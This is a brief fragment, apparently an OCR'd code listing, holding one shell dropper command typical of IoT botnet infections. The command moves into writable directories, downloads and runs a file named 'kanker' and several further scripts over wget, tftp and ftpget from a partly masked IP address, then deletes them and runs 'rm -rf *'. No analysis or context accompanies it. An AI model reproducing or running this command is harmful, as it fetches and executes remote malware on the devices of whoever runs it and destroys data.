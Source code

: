 \begin{lstlisting}
AA\x00\x00AAAA cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://xx.xx.207.14/kanker; chmod 777 kanker; sh kanker; tftp xx.xx.207.14 -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; tftp -r tftp2.sh -g xx.xx.207.14; chmod 777 tftp2.sh; sh tftp2.sh; ftpget -v -u anonymous -p anonymous -P 21 xx.xx.207.14 ftp1.sh ftp1.sh; sh ftp1.sh; rm -rf kanker tftp1.sh tftp2.sh ftp1.sh; rm -rf *\x00\n
\end{lstlisting}

